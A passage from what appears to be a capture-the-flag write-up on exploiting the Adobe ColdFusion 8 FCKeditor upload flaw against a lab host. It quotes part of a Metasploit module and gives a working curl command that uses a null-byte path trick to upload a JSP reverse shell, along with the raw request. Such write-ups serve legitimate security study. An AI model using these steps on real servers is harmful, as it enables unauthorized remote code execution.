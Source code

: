 ```
            {
                # default path in Adobe ColdFusion 8.0.1.
                'uri'           => '/userfiles/file/' + page,
                'method'        => 'GET',
                }, 5)

        handler
    else
        print_error("Upload Failed...")
        return
    end

end

```

This is a relatively simply exploit - it makes two HTTP requests. First is a POST to `FCKEDITOR_DIR`, which has a default value of `/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm` defined earlier in the script. Then it does a GET to `/userfiles/file/` to trigger the payload.

#### Upload Reverse Shell

I can recreate this exploit with `curl`:

```

root@kali# curl -X POST -F newfile=@shell.jsp 'http://10.10.10.11:8500/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=/df.jsp%00'

                <script type="text/javascript">
                        window.parent.OnUploadCompleted( 202, "", "shell.jsp", "0" );
                </script>

```

Once that finishes, there’s a new folder at the root:

![image-20200513094548902](https://0xdfimages.gitlab.io/img/image-20200513094548902.png)

But there’s no file in `/userfiles/file/`. I must have hit some filter. My request looks like:

```

POST /CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=/df.jsp%00 HTTP/1.1
Host: 10.10.10.11:8500
User-Agent: curl/7.68.0
Accept: */*
Content-Length: 1700
Content-Type: multipart/form-data; boundary=------------------------2cf8346e8d23a757
Expect: 100-continue
Connection: close
--------------------------2cf8346e8d23a757
Content-Disposition: form-data; name="newfile"; filename="shell.jsp"
Content-Type: application/octet-stream

<%@page import="java.lang.*"%>
<%@page import="java.util.*"%>
<%@page import="java.io.*"%>
<%@page import="java.net.*"%>
...[snip]...

```
